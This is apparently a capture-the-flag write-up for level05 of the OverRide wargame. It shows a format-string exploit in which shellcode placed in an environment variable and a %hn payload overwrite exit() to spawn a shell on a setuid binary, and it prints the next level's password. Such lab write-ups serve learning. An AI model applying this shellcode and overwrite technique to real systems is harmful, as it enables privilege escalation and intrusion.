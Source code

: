 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase, if it's part of the ASCII table
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution will consist of storing a shellcode inside an environment variable and overwrite `exit()` with its address. We need to export the shellcode, otherwise any values corresponding to an uppercase letter in ASCII will be modified by the program. So the goal is to use the `%n` specifier, with which we will send the address of the environment variable as a decimal number and store it inside the `exit()` call.

First, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Now, let's retrieve the address of a random NOP instruction inside our environment variable:
```Shell
(gdb) x/s *((char **)environ)
0xffffd872:      "SHELLCODE=[...]
```

Writing the address in one go is impossible because it exceeds the capacity of an `int`, therefore crashing `%d` and `%n` (as `%n` takes an `*int` as argument). We are forced to divide it and store each part in a `short int`, aka `%hn`.
So our payload will consist in:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn
```Shell
python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55414d" + "%10$hn" + "%10113d" + "%11$hn")' > /tmp/payload06
```

The address of the environment variable storing our shellcode is 0xffffd872, we will add 12 (0xffffd87e) to be sure this address correspond to a NOP instruction, which gives us, in decimal:
ffff = 65535 / d87e = 55422
Since we're in little endian, we start with `d87e`, minus 8 (because of the 8 bytes of the address of `exit()`): 55414.
Then, for `ffff` minus 8 and minus 55414, so we get: 10113.
We will place each value next to each other on the stack, therefore they will be placed at index 10 and index 11, respectively.

```Shell
level05@OverRide: cat /tmp/payload06 - | ./level05
[...]
        -134415680
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
